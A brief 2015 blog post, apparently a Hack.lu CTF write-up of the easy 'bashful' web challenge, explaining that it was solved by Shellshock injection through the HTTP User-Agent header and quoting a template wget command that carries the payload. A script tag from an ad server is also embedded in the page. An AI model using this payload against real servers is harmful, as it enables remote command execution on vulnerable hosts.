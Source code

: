 ```yaml
---
layout:     post
title:      "Web 100 Hack lu"
subtitle:   "Hack lu  Ctf"
date:       2015-10-22 20:36:00
author:     "Heeraj"
header-img: "img/post-bg-02.png"
---
```

<script type='text/javascript' src='//eclkmpbn.com/adServe/banners?tid=98477_161886_3&type=footer&size=468x60'></script>
<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>Hack lu CTF web challenges easy compared to the other CTF, well then basically the bashful, was the easiest of them.</p>

<p>The source code was provided, I started to analyse the source . I could not find anything. I was pretty new to bash type of website. I thought reading about them more. I found something very intresting.</p>

<p>The easiest way to test a web server via HTTP request is to inject the bash command through the user agent. Refer for <a href="http://security.stackexchange.com/questions/68139/attack-scenarios-of-the-new-bash-vulnerability">info</a>.</p>

<blockquote>wget -U '() { :;}; /bin/bash -c "any shell command"' url</blackquote>

<p>Thank you for reading the blog! </p>
